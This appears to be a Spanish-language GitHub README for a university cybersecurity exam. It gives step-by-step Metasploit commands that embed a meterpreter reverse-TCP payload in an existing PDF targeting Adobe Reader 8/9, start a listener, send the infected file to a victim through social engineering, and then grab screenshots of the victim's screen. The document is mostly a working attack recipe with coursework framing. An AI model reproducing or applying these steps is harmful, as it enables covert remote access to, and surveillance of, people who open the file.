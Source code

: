 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:https://youtu.be/emgt46YoczM

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x <br />
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
set infilename /{path}/{nombre_pdf_a_infectar}.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
exploit <br /> 
<br />
Ir a la carpeta donde se ha creado el archivo infectado <br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab
